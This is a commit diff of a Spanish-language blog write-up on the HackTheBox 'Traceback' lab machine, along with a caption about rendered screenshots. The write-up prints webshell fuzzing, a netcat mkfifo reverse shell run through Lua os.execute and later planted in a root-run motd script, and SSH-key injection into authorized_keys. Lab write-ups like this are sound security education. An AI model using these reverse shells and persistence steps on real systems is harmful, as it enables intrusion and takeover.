

Before and after one commit to CSL-LABS/CSL-LABS.github.io, a Jekyll site: the page built from _posts/2020-11-19-htb-traceback.md, in a window 1280 px wide and 1400 px high, scrolled down 1348 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
htb-traceback update

````diff
--- a/_posts/2020-11-19-htb-traceback.md
+++ b/_posts/2020-11-19-htb-traceback.md
@@ -2,20 +2,21 @@
 title: HTB-TRACEBACK
 author: Christian Gutierrez
 date: 2020-11-19 14:10:00 -0500
-categories: [HackTheBox, Easy]
-tags: [HTB]
-image: /assets/htb/01_traceback/portada.png
+categories: [HackTheBox, Medium]
+tags: [HTB, SSH, NodeJS]
+image: /assets/htb/01_traceback/portada.PNG
 ---
 
 ## Decripción del entorno
-- Atacante
+- <span style="color:blue">Atacante</span>
     - OS: Kali Linux
     - IP: 10.10.15.14
-- Maquina Objetivo
+- <span style="color:green">Maquina Objetivo</span>
     - OS: Linux
     - IP: 10.10.10.181
-    - Dificultad: 4.8/10 **Easy**
+    - Dificultad: 4.8/10 | **Medium**
     - URL: [**TraceBack**](https://www.hackthebox.eu/home/machines/profile/233)
+
 ## Enumeración
 Se realiza la enumeración habitual para el reconocimiento e identificación de los puertos abiertos en el sistema:
 ```console
@@ -28,10 +29,11 @@
 ![Puerto 80](/assets/htb/01_traceback/02_puerto_80.png)
 _Pagina web desplegada en el puerto 80_
 
-Se saca un listado de las WebShell más conocidas <https://github.com/TheBinitGhimire/Web-Shells>, y se realiza un barrido utilizando wFuzz para identificar si alguna se encuentra persistente en el servidor:
+Se saca un listado de las WebShell más conocidas <https://github.com/TheBinitGhimire/Web-Shells>, y se realiza un barrido utilizando **wFuzz** para identificar si alguna se encuentra persistente en el servidor:
 ```console
 $ wfuzz -w htb/01_traceback/webshells.dict --hc 404 http://10.10.10.181/FUZZ
 ```
+Resultado:
 - cmd.php
     - Parametro: ?cmd=**COMANDO**
 - smevk.php
@@ -40,52 +42,56 @@
 
 Una vez identificadas, se procede a validar el usuario y los privilegios que se tienen para la ejecución de comandos.
 ![WebShell Básica](/assets/htb/01_traceback/03_cmd_comandos_basicos.png)
-_usando shell cmd.php con comandos pwd, whoami e ifconfig_
+_Usando shell cmd.php con comandos pwd, whoami e ifconfig_
 
 ### Usuarios de bajos privilegios
 - webadmin [**Hacked**]
 - sysadmin
 
-Desde el usuario webadmin vemos que tenemos permisos para ejecutar un comando como el usuario sysadmin:
+Por medio de los Sudoers desde el usuario **webadmin** vemos que tenemos permisos para ejecutar un comando como el usuario **sysadmin**:
 ```console
 $ sudo -l
 /home/sysadmin/luvit
 ```
-De lo anterior se identifica que corresponde a un servicio NodeJS para el lenguaje Lua - [luvit](https://luvit.io/) por lo que conserva su sintaxis y además es posible utilizarla para ejecutar scripts **.lua** diseñados por nosotros; vamos a utilizar el metodo `os.execute()` que nos permite ejecutar comandos de sistema operativo [LUA](https://stackoverflow.com/questions/13270346/lua-os-execute-does-not-work)
+De lo anterior se identifica que [luvit](https://luvit.io/) corresponde a un servicio **NodeJS** para el lenguaje **Lua** por lo que conserva su sintaxis y además es posible utilizarlo para ejecutar scripts **.lua** diseñados por nosotros; vamos a utilizar el metodo `os.execute()` que nos permite ejecutar comandos de sistema operativo en [LUA](https://stackoverflow.com/questions/13270346/lua-os-execute-does-not-work)
 
 ## Explotación
 
-Una vez identificado el vector de ataque, vamos a ejecutar una Shell reversa con **nc** a través de la ejecución privilegiada de `/home/sysadmin/luvit`, por lo que creamos el siguiente archivo **lua** en `/tmp/`:
+Una vez identificado el vector de ataque, vamos a utilizar una Shell reversa con **nc** a través de la ejecución privilegiada de `/home/sysadmin/luvit`, por lo que creamos el siguiente archivo **lua** en el directorio `/tmp/`:
 
 ```lua
 os.execute("rm /tmp/cdf;mkfifo /tmp/cdf;cat /tmp/cdf|/bin/sh -i 2>&1|nc 10.10.15.14 4545 >/tmp/cdf")
 ```
 
-Ejecutamos el archivo con los privilegios de sysadmin de la siguiente manera:
+Ejecutamos el archivo con los privilegios de **sysadmin** de la siguiente manera:
 ```console
 $ sudo -u sysadmin /home/sysadmin/luvit /tmp/d.lua
 ```
-Recibimos la conexión inversa mediante NetCat:
+Recibimos la conexión inversa mediante **NetCat**:
 ```console
 $ nc -nvlp 4545
 ```
 ![Reverse Shell](/assets/htb/01_traceback/04_reverse_shell.png)
 _Reverse Shell con privilegios del usuario sysadmin_
 
-Aunque ya tenemos la shell con los privilegios **Sysadmin** que nos permiten la lectura de la flag `user.txt`, sería más comodo poder conectarnos directamente al servicio SSH (22), para así tener más estabilidad y propiedades en la consola; para lograr esto, debemos agregar nuestra llave pública SSH al archivo `authorized_keys` del servidor victima, así, sin proporcionar credenciales podemos hacer uso de este.
+Aunque ya tenemos la shell con los privilegios **Sysadmin** que nos permiten la lectura de la flag `user.txt`, es más comodo poder conectarnos directamente al servicio SSH (22), para así tener más estabilidad y propiedades en la consola; para lograr esto, debemos agregar nuestra **llave pública SSH** al archivo `authorized_keys` del servidor victima, de esta manera, sin proporcionar credenciales podemos acceder a este.
 ```console
 $ echo “test” >> authorized_keys
 Permission denied
 ```
-Como no podemos realizarlo desde la shell que tenemos actualmente, creamos otro archivo .LUA que cambie los privilegios del archivo "" y agregue nuestra key:
+Como no podemos realizarlo desde la shell que tenemos actualmente, creamos otro archivo **.lua** que cambie los privilegios del archivo "" y agregue nuestra key:
 ```lua
 file = io.open("/home/sysadmin/.ssh/authorized_keys", "w")
 file:write("ssh-rsa AAAAB3NzaC1yc2EAAAADA/.../zWoMYWXUF8ZIOQp0= csl@support")
 file:close()
 ```
-Ejecutamos el nuevo script LUA:
+Ejecutamos el nuevo script **LUA**:
 ```console
 $ sudo -u sysadmin /home/sysadmin/luvit /tmp/d2.lua
+```
+Y accedemos al servidor mediante **SSH**:
+```console
+$ ssh sysadmin@10.10.10.181
 ```
 ![SSH](/assets/htb/01_traceback/05_ssh_access.png)
 _Acceso por SSH al usuario Sysadmin_
@@ -100,16 +106,18 @@
 ![SSH](/assets/htb/01_traceback/06_priv_etc_update.png)
 _Permisos del directorio /etc/update-motd.d/_
 
-Y recordemos que dicho directorio corresponde a los scripts de personalización de inicio o acceso mediante SSH, así pues, cada uno de esos script’s mostrará información o será ejecutado por el usuario **root** cuando alguien se conecta mediante SSH. De esta manera, si logramos algún cambio en estos scripts, lo podremos ejecutar mediante el acceso a SSH tal como ya lo hemos hecho previamente.
+Y recordemos que dicho directorio corresponde a los scripts de personalización de inicio o acceso mediante **SSH**, así pues, cada uno de esos script’s mostrará información o será ejecutado por el usuario **root** cuando alguien se conecta mediante **SSH**. De esta manera, si logramos algún cambio en estos scripts, lo podremos activar mediante el acceso a SSH que tenemos del usuario **Sysadmin**.
 
 Considerando lo anterior, agregamos el comando para que cuando se ejecute nos permita una conexión inversa a nuestro equipo, por el puerto 4545.
 ```console
 $ echo "rm /tmp/cdf;mkfifo /tmp/cdf;cat /tmp/cdf|/bin/sh -i 2>&1|nc 10.10.15.14 4545 >/tmp/cdf" >> /etc/update-motd.d/00-header
 ```
-Una vez realizado, accedemos al servicio SSH con el usuario Sysadmin (para activa nuestro payload) y a su vez, recibimos la conexión inversa en nuestro equipo, esta vez con privilegios de **root**.
+Una vez realizado, accedemos al servicio **SSH** con el usuario **Sysadmin** (para activa nuestro payload) y a su vez, recibimos la conexión inversa en nuestro equipo, esta vez con privilegios de **root**.
 
-Otra forma de acceder sin utilizar la shell reversa, implicaría el mismo principio de habilitar nuestras llaves en el servicio SSH del usuario root:
+Otra forma de acceder sin utilizar la shell reversa, implicaría el mismo principio de habilitar nuestras llaves en el servicio **SSH** del usuario **root**:
 
 ```console
 sysadmin@traceback:/etc/update-motd.d$ echo "cp /home/sysadmin/.ssh/authorized_keys /root/.ssh/" >> 00-header
 ```
+
+Bytez :alien:
````
